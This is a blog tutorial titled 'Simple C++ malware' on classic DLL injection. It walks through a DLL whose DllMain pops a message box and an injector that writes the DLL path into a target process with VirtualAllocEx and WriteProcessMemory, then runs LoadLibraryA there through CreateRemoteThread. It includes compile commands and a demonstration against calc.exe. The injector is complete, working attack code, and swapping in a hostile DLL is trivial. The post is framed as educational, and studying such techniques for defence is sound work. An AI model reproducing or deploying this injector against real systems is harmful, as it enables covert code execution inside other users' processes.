 ```yaml
---
layout: post
title:  "Classic DLL injection into the process. Simple C++ malware."
date:   2021-09-20 10:00:00 +0600
categories: tutorial
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL injection](/assets/images/7/2021-09-20_15-01.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.

In this post we will discuss about a classic DLL injection technique which are use debugging API.

About classic code injection I wrote in [this](/tutorial/2021/09/18/malware-injection-1.html) post.

Firstly, let's go to prepare our DLL.   

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called `main` which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.

On the other hand with the `DLL`'s when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements. 

So *exe need a main function and DLL's need DLLMain function*   
Basically that's the simplest difference.

For simplicity, we create DLL which just pop-up a message box:

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

It only consists of `DllMain` which is the main function of DLL library. It doesn't declare any exported functions which is what legitimate DLLs normally do. `DllMain` code is executed right after DLL is loaded into the process memory.

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](/assets/images/7/2021-09-20_17-01.png){:class="img-responsive"}

and put it in a directory of our choice (victim's machine):
![put DLL](/assets/images/7/2021-09-20_17-09.png){:class="img-responsive"}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
	HANDLE ph; // process handle
	HANDLE rt; // remote thread
	LPVOID rb; // remote buffer

	// handle to kernel32 and pass it to GetProcAddress
	HMODULE hKernel32 = GetModuleHandle("Kernel32");
	VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

	// parse process ID
	if ( atoi(argv[1]) == 0) {
		printf("PID not found :( exiting...\n");
		return -1;
	}
	printf("PID: %i", atoi(argv[1]));
	ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

	// allocate memory buffer for remote process
	rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

	// "copy" evil DLL between processes
	WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

	// our process start new thread
	rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
	CloseHandle(ph);
	return 0;
}

```

It's pretty simple as you can see. It's same as in my [code injection](/tutorial/2021/09/18/malware-injection-1.html) post. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:

![LoadLibraryA](/assets/images/7/2021-09-20_18-11.png){:class="img-responsive"}

So finally after we understood entire code of the injector, we can test it. 
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](/assets/images/7/2021-09-20_18-20.png){:class="img-responsive"}

Let's first launch a `calc.exe` instance and then execute our program:

![run injector](/assets/images/7/2021-09-20_18-25.png){:class="img-responsive"}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

![Process Hacker](/assets/images/7/2021-09-22_09-03.png){:class="img-responsive"}

In another memory section we can see:
![Process Hacker 2](/assets/images/7/2021-09-22_09-23.png){:class="img-responsive"}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-injection-2)

In the future I will try to figure out more advanced code injection techniques.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*